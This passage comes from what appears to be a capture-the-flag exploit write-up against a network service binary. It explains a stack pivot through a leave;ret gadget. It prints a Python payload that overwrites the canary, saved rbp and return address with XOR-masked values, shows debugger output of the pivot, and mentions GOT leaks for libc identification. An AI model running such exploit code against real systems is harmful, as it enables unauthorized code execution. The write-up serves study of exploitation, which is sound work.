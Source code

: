 Great, so if we `ret` to the `leave` instruction again (1 instruction above the original `ret`), we are basically "popping" the rbp again effectively changing the `rsp` to the value of our choosing!<br>
All that is required of us is to change the return address to the `leave` instruction. After which the program will execute the `leave` and then the `ret`. The `ret` now will return to a value at the stop of the stack, which **is the custom stack now**

If we send the following payload:
```python
    text_section_base = ret_addr & 0xfffffffffffff000
    text_section_leave_ret = text_section_base + 0xc5c
    buffer_addr       = old_rbp - 0x480

    # After leaking the necessary values,
    # We create a new payload
    payload = "davide" + "AA"
    payload += p64(0xdeadbeefdeadbeef ^ Ds)

    # Pad to the end of buffer
    payload += "B" * (1032 - len(payload))

    payload += p64(canary ^ Ds)
    payload += p64(buffer_addr ^ Ds)
    payload += p64(text_section_leave_ret ^ Ds)

    send_payload(payload)
```


We get:
```
   0x555555554c5c <check_username+237>:	leave  
=> 0x555555554c5d <check_username+238>:	ret    
   0x555555554c5e <exit_server>:	push   rbp
   0x555555554c5f <exit_server+1>:	mov    rbp,rsp
   0x555555554c62 <exit_server+4>:	sub    rsp,0x20
   0x555555554c66 <exit_server+8>:	mov    DWORD PTR [rbp-0x14],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe118 --> 0xdeadbeefdeadbeef 
0008| 0x7fffffffe120 ('O' <repeats 200 times>...)
0016| 0x7fffffffe128 ('O' <repeats 200 times>...)
0024| 0x7fffffffe130 ('O' <repeats 200 times>...)
0032| 0x7fffffffe138 ('O' <repeats 200 times>...)
0040| 0x7fffffffe140 ('O' <repeats 200 times>...)
0048| 0x7fffffffe148 ('O' <repeats 200 times>...)
0056| 0x7fffffffe150 ('O' <repeats 200 times>...)
```

And from here we can write a pretty nice and long ROP chain that can take us where ever we like!

### Leaking an address of a function in libc
My next step usually is to go ahead to leak some entry from the GOT, take that address to some libc-database and then learn the libc version used in the remote machine.
